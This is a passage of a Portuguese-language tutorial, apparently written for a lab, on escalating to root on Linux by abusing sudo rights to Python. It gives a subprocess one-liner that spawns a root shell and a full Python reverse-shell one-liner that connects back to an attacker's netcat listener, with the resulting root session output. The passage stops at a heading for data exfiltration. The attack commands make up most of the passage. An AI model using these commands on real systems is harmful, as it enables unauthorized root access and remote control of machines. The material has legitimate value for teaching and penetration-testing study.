 **Explicação:** Python permite importar e executar código arbitrário. Com sudo, podemos fazer praticamente qualquer coisa no sistema.

### 3.5d Método 4: Python com `subprocess` [Mais Robusto]

Uma forma mais robusta e profissional de ganhar shell:

```bash
vagrant@ubuntu:~$ sudo python -c 'import subprocess; subprocess.call(["/bin/bash"])'
```

**Resultado:**

```
root@ubuntu:~# whoami
root

root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Explicação:** `subprocess.call()` fornece mais controle sobre a execução. Funciona melhor em shells interativos do que `os.system()`.

### 3.5e Método 5: Python com socket - Reverse shell profissional

Para uma sessão de shell mais confiável e que funciona remotamente:

```bash
# No atacante, abrir listener netcat
nc -lvnp 4444

# No alvo, executar Python com reverse shell
vagrant@ubuntu:~$ sudo python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/bash","-i"]);p.wait()'
```

**Resultado esperado (no atacante):**

```
listening on [any] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.3] 54321
root@ubuntu:~# whoami
root
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Explicação:** Isso cria um reverse shell onde o alvo se conecta de volta ao atacante com shell root. Muito mais útil do que uma shell local, pois permite execução remota persistente.

### 3.5f Método 6: Python para exfiltração de dados com priv escalada

Usar Python para automatizar a exfiltração de dados sensíveis:
